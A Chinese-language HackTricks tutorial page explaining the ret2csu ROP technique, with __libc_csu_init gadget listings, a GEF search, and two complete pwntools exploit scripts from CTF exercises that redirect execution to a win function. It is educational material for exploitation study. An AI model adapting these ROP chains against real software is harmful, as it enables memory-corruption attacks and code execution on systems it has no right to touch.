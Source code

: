 # Ret2csu

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

##

## [https://www.scs.stanford.edu/brop/bittau-brop.pdf](https://www.scs.stanford.edu/brop/bittau-brop.pdf)基本信息

**ret2csu** 是一种黑客技术，当你试图控制一个程序但找不到通常用来操纵程序行为的 **gadgets** 时使用。

当一个程序使用某些库（如 libc）时，它有一些内置函数来管理程序不同部分之间的通信。在这些函数中，有一些隐藏的宝石可以作为我们缺失的 gadgets，特别是一个叫 `__libc_csu_init` 的函数。

### \_\_libc\_csu\_init 中的魔法 gadgets

在 **`__libc_csu_init`** 中，有两个指令序列（gadgets）值得强调：

1. 第一个序列让我们在几个寄存器（rbx, rbp, r12, r13, r14, r15）中设置值。这些就像我们可以存储后续要使用的数字或地址的槽。
```armasm
pop rbx;
pop rbp;
pop r12;
pop r13;
pop r14;
pop r15;
ret;
```
这个小工具允许我们通过从栈中弹出值来控制这些寄存器。

2. 第二个序列使用我们设置的值来做几件事情：
* **将特定值移动到其他寄存器中**，使它们准备好作为函数中的参数使用。
* **执行对一个位置的调用**，该位置由将 r15 和 rbx 中的值相加，然后将 rbx 乘以 8 来确定。
```armasm
mov rdx, r15;
mov rsi, r14;
mov edi, r13d;
call qword [r12 + rbx*8];
```
2. 也许你不知道要写入哪个地址，并且你**需要一个 `ret` 指令**。请注意，第二个 gadget 也将**以 `ret` 结束**，但你需要满足一些**条件**才能到达它：
```armasm
mov rdx, r15;
mov rsi, r14;
mov edi, r13d;
call qword [r12 + rbx*8];
add rbx, 0x1;
cmp rbp, rbx
jnz <func>
...
ret
```
条件将是：

* `[r12 + rbx*8]` 必须指向一个存储可调用函数的地址（如果没有想法且没有PIE，可以直接使用 `_init` 函数）：
* 如果 `_init` 在 `0x400560`，使用 GEF 在内存中搜索指向它的指针，并使 `[r12 + rbx*8]` 成为指向 `_init` 的指针的地址：
```bash
# Example from https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
gef➤  search-pattern 0x400560
[+] Searching '\x60\x05\x40' in memory
[+] In '/Hackery/pod/modules/ret2_csu_dl/ropemporium_ret2csu/ret2csu'(0x400000-0x401000), permission=r-x
0x400e38 - 0x400e44  →   "\x60\x05\x40[...]"
[+] In '/Hackery/pod/modules/ret2_csu_dl/ropemporium_ret2csu/ret2csu'(0x600000-0x601000), permission=r--
0x600e38 - 0x600e44  →   "\x60\x05\x40[...]"
```
* `rbp` 和 `rbx` 必须具有相同的值以避免跳转
* 需要考虑一些省略的 pop

## RDI 和 RSI

从 ret2csu gadget 控制 **`rdi`** 和 **`rsi`** 的另一种方法是通过访问特定的偏移量：

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt="" width="283"><figcaption><p><a href="https://www.scs.stanford.edu/brop/bittau-brop.pdf">https://www.scs.stanford.edu/brop/bittau-brop.pdf</a></p></figcaption></figure>

查看此页面以获取更多信息：

{% content-ref url="brop-blind-return-oriented-programming.md" %}
[brop-blind-return-oriented-programming.md](brop-blind-return-oriented-programming.md)
{% endcontent-ref %}

## 示例

### 使用调用

想象一下，你想进行系统调用或调用像 `write()` 这样的函数，但需要在 `rdx` 和 `rsi` 寄存器中作为参数的特定值。通常，你会寻找直接设置这些寄存器的 gadgets，但你找不到任何。

这时 **ret2csu** 就派上用场了：

1. **设置寄存器**：使用第一个魔法 gadget 从栈中弹出值并放入 rbx、rbp、r12（edi）、r13（rsi）、r14（rdx）和 r15。
2. **使用第二个 gadget**：在这些寄存器设置好后，使用第二个 gadget。这使你能够将所选值移动到 `rdx` 和 `rsi`（分别来自 r14 和 r13），为函数调用准备参数。此外，通过控制 `r15` 和 `rbx`，你可以使程序调用位于你计算并放入 `[r15 + rbx*8]` 的地址的函数。

你可以在这里找到一个 [**使用此技术并解释的示例**](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu/exploitation)，这是它使用的最终利用：
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```
{% hint style="warning" %}
注意，之前的漏洞并不是为了实现 **`RCE`**，而是为了调用一个名为 **`win`** 的函数（从标准输入调用 gets 获取 `win` 的地址并将其存储在 r15 中），并带有一个值为 `0xdeadbeefcafed00d` 的第三个参数。
{% endhint %}

### 绕过调用并到达 ret

以下漏洞是从 [**这个页面**](https://guyinatuxedo.github.io/18-ret2\_csu\_dl/ropemporium\_ret2csu/index.html) 提取的，其中使用了 **ret2csu**，但不是使用调用，而是 **绕过比较并到达 `ret`** 在调用之后：
```python
# Code from https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
# This exploit is based off of: https://www.rootnetsec.com/ropemporium-ret2csu/

from pwn import *

# Establish the target process
target = process('./ret2csu')
#gdb.attach(target, gdbscript = 'b *    0x4007b0')

# Our two __libc_csu_init rop gadgets
csuGadget0 = p64(0x40089a)
csuGadget1 = p64(0x400880)

# Address of ret2win and _init pointer
ret2win = p64(0x4007b1)
initPtr = p64(0x600e38)

# Padding from start of input to saved return address
payload = "0"*0x28

# Our first gadget, and the values to be popped from the stack

# Also a value of 0xf means it is a filler value
payload += csuGadget0
payload += p64(0x0) # RBX
payload += p64(0x1) # RBP
payload += initPtr # R12, will be called in `CALL qword ptr [R12 + RBX*0x8]`
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xdeadcafebabebeef) # R15 > soon to be RDX

# Our second gadget, and the corresponding stack values
payload += csuGadget1
payload += p64(0xf) # qword value for the ADD RSP, 0x8 adjustment
payload += p64(0xf) # RBX
payload += p64(0xf) # RBP
payload += p64(0xf) # R12
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xf) # R15

# Finally the address of ret2win
payload += ret2win

# Send the payload
target.sendline(payload)
target.interactive()
```
### 为什么不直接使用libc？

通常这些情况也容易受到[**ret2plt**](../common-binary-protections-and-bypasses/aslr/ret2plt.md) + [**ret2lib**](ret2lib/)的攻击，但有时你需要控制比直接在libc中找到的gadgets更复杂的参数。例如，`write()`函数需要三个参数，而**直接找到设置所有这些的gadgets可能是不可能的**。
